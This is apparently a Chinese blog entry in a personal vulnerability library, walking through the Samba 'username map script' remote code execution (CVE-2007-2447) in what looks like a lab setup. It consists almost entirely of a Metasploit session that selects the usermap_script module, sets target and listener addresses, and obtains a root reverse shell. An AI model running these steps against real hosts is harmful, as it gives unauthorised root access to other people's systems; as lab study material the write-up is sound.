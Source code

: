 ```yaml
---
title: Samba RCE(CVE-2007-2447)
date: 2025-06-08 17:00:00 +0800
last_modified_at: 2025-06-08 17:00:00 +0800
categories: [漏洞库]
tags: [漏洞库 , RCE , SMB]
math: true
mermaid: true
---
```


# 影响范围
`3.0.20-3.0.25rc3`

# 利用方法

    msf6 > search samba 3.0.2

    Matching Modules
    ================

    #   Name                                                   Disclosure Date  Rank       Check  Description
    -   ----                                                   ---------------  ----       -----  -----------
    0   exploit/multi/samba/usermap_script                     2007-05-14       excellent  No     Samba "username map script" Command Execution
    1   exploit/linux/samba/lsa_transnames_heap                2007-05-14       good       Yes    Samba lsa_io_trans_names Heap Overflow
    2     \_ target: Linux vsyscall                            .                .          .      .
    3     \_ target: Linux Heap Brute Force (Debian/Ubuntu)    .                .          .      .
    4     \_ target: Linux Heap Brute Force (Gentoo)           .                .          .      .
    5     \_ target: Linux Heap Brute Force (Mandriva)         .                .          .      .
    6     \_ target: Linux Heap Brute Force (RHEL/CentOS)      .                .          .      .
    7     \_ target: Linux Heap Brute Force (SUSE)             .                .          .      .
    8     \_ target: Linux Heap Brute Force (Slackware)        .                .          .      .
    9     \_ target: Linux Heap Brute Force (OpenWRT MIPS)     .                .          .      .
    10    \_ target: DEBUG                                     .                .          .      .
    11  exploit/solaris/samba/lsa_transnames_heap              2007-05-14       average    No     Samba lsa_io_trans_names Heap Overflow
    12    \_ target: Solaris 8/9/10 x86 Samba 3.0.21-3.0.24    .                .          .      .
    13    \_ target: Solaris 8/9/10 SPARC Samba 3.0.21-3.0.24  .                .          .      .
    14    \_ target: DEBUG                                     .                .          .      .
    
    
    msf6 > use 0

    msf6 exploit(multi/samba/usermap_script) > show options

    Module options (exploit/multi/samba/usermap_script):

    Name     Current Setting  Required  Description
    ----     ---------------  --------  -----------
    CHOST                     no        The local client address
    CPORT                     no        The local client port
    Proxies                   no        A proxy chain of format type:host:port[,type:host:port][...]
    RHOSTS                    yes       The target host(s), see https://docs.metasploit.com/docs/using-metasploit/basics/using-metasploit.html
    RPORT    139              yes       The target port (TCP)

    msf6 exploit(multi/samba/usermap_script) > set rhosts 10.10.10.3

***注意将本地监听端口该为openvpn的ip***
    
    msf6 exploit(multi/samba/usermap_script) > set lhost 10.10.16.9
    msf6 exploit(multi/samba/usermap_script) > run
    [*] Started reverse TCP handler on 10.10.16.9:4444 
    [*] Command shell session 1 opened (10.10.16.9:4444 -> 10.10.10.3:41153) at 2025-06-08 04:02:47 -0400

    whoami
    root